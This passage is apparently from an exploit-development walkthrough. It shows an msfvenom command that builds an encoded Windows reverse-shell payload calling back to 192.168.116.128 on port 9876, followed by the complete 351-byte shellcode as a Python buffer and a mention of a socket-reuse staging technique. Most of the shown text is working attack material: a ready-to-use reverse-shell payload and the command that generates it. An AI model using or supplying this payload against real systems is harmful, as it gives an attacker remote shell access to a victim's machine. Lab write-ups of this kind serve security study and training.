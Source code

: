 We will be passing it into our stage 1 payload

## Crafting shellcode

Lets generate the shellcode for our reverse shell using ```msfvenom```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.116.128 LPORT=9876 -f python -e x86/shikata_ga_nai -b "\x00"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xd9\xc6\xd9\x74\x24\xf4\xbe\x4b\x0e\xc3\xd4\x58\x33"
buf += b"\xc9\xb1\x52\x31\x70\x17\x83\xe8\xfc\x03\x3b\x1d\x21"
buf += b"\x21\x47\xc9\x27\xca\xb7\x0a\x48\x42\x52\x3b\x48\x30"
buf += b"\x17\x6c\x78\x32\x75\x81\xf3\x16\x6d\x12\x71\xbf\x82"
buf += b"\x93\x3c\x99\xad\x24\x6c\xd9\xac\xa6\x6f\x0e\x0e\x96"
buf += b"\xbf\x43\x4f\xdf\xa2\xae\x1d\x88\xa9\x1d\xb1\xbd\xe4"
buf += b"\x9d\x3a\x8d\xe9\xa5\xdf\x46\x0b\x87\x4e\xdc\x52\x07"
buf += b"\x71\x31\xef\x0e\x69\x56\xca\xd9\x02\xac\xa0\xdb\xc2"
buf += b"\xfc\x49\x77\x2b\x31\xb8\x89\x6c\xf6\x23\xfc\x84\x04"
buf += b"\xd9\x07\x53\x76\x05\x8d\x47\xd0\xce\x35\xa3\xe0\x03"
buf += b"\xa3\x20\xee\xe8\xa7\x6e\xf3\xef\x64\x05\x0f\x7b\x8b"
buf += b"\xc9\x99\x3f\xa8\xcd\xc2\xe4\xd1\x54\xaf\x4b\xed\x86"
buf += b"\x10\x33\x4b\xcd\xbd\x20\xe6\x8c\xa9\x85\xcb\x2e\x2a"
buf += b"\x82\x5c\x5d\x18\x0d\xf7\xc9\x10\xc6\xd1\x0e\x56\xfd"
buf += b"\xa6\x80\xa9\xfe\xd6\x89\x6d\xaa\x86\xa1\x44\xd3\x4c"
buf += b"\x31\x68\x06\xc2\x61\xc6\xf9\xa3\xd1\xa6\xa9\x4b\x3b"
buf += b"\x29\x95\x6c\x44\xe3\xbe\x07\xbf\x64\x01\x7f\xcb\xf4"
buf += b"\xe9\x82\x33\xd3\x7d\x0b\xd5\x71\x6e\x5a\x4e\xee\x17"
buf += b"\xc7\x04\x8f\xd8\xdd\x61\x8f\x53\xd2\x96\x5e\x94\x9f"
buf += b"\x84\x37\x54\xea\xf6\x9e\x6b\xc0\x9e\x7d\xf9\x8f\x5e"
buf += b"\x0b\xe2\x07\x09\x5c\xd4\x51\xdf\x70\x4f\xc8\xfd\x88"
buf += b"\x09\x33\x45\x57\xea\xba\x44\x1a\x56\x99\x56\xe2\x57"
buf += b"\xa5\x02\xba\x01\x73\xfc\x7c\xf8\x35\x56\xd7\x57\x9c"
buf += b"\x3e\xae\x9b\x1f\x38\xaf\xf1\xe9\xa4\x1e\xac\xaf\xdb"
buf += b"\xaf\x38\x38\xa4\xcd\xd8\xc7\x7f\x56\xe8\x8d\xdd\xff"
buf += b"\x61\x48\xb4\xbd\xef\x6b\x63\x81\x09\xe8\x81\x7a\xee"
buf += b"\xf0\xe0\x7f\xaa\xb6\x19\xf2\xa3\x52\x1d\xa1\xc4\x76"
```

We have crafted our shellcode which is made up of ```351 bytes``` and it is almost impossible to send our payload in buffer data or in ESP

So lets use ```staging exploitation``` technique to send this payload by ```socket reuse stager```
